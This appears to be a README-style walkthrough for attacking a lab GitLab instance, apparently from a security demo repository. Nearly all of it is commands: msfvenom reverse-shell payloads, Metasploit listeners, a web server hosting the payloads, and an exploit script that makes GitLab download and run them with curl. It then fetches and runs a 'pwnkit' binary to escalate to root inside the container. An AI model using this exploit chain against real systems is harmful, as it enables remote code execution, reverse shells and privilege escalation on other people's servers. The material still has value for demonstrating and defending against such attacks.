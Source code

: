 Start the GitLab application via docker-compose

```bash
docker-compose up
```

Create a new GitLab user (mondoo, mondoo.com)

![GitLab user register](images/gitlab-user-register.png)

Create the meterpreter for the GitLab container

```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.56.1 LPORT=4242 -f elf > met-container
```

Start the metasploit framework for the GitLab container connection

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/meterpreter_reverse_tcp;set lhost 0.0.0.0; set lport 4242;run'
```

Create the reverse shell for the docker host

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.56.1 LPORT=4243 -f elf > met-host
```

Start the metasploit framework for the docker host connection

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/shell/reverse_tcp;set lhost 0.0.0.0; set lport 4243;run'
```

Start the on liner web server that the victim can download the shells

```bash
ruby -run -ehttpd . -p8001
```

Execute the GitLab exploit

```bash
python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c 'curl -vk http://192.168.56.1:8001/met-container -o /tmp/met'

python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c 'chmod 777 /tmp/met'

python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c '/tmp/met'
```

Now you have a reverse meterpreter connection, type `shell` to get a bash.

Get root within the GitLab container

```bash
id
uid=998(git) gid=998(git) groups=998(git)

cd /tmp

curl -vkO https://pwnkit.s3.amazonaws.com/priv-es

chmod a+x ./priv-es

./priv-es

id
uid=0(root) gid=0(root) groups=0(root),998(git)
```
